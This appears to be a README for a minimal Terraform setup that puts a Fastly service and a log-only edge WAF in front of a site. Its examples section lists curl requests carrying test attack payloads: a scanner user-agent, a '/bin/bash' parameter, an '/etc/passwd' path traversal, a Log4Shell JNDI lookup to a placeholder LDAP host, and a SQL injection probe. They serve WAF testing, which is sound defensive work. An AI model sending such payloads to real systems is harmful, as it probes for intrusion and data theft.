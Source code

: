 # minimum terraform edgewaf

## what
a bare minimum syntax example for getting a vcl+edgewaf service setup in front of a site

the vcl service is configured to pass all traffic (not cache)

the waf site is configured to log attacks (not block)

this provides traffic graphs in the fastly ui, and attack data in the sigsci ui, without actually caching or blocking anything

## howto
```
git clone https://github.com/jbartus/fastly-minimum-edge-waf.git
cd fastly-minimum-edge-waf/
terraform init
cp terraform.tfvars.example terraform.tfvars
# edit terraform.tfvars to populate the values
terraform apply
```

## examples
```
curl https://site_name.global.ssl.fastly.net/headers

curl https://site_name.global.ssl.fastly.net/headers -H 'user-agent: nikto'

curl 'https://site_name.global.ssl.fastly.net/headers?run=/bin/bash'

curl 'https://site_name.global.ssl.fastly.net/headers?cat=../../../etc/passwd'

curl https://site_name.global.ssl.fastly.net/headers -H 'x-attack: ${jndi:ldap://foo.bar.local:9999/path}'

curl 'https://site_name.global.ssl.fastly.net/headers?user=1+ORDER+BY+11'
```
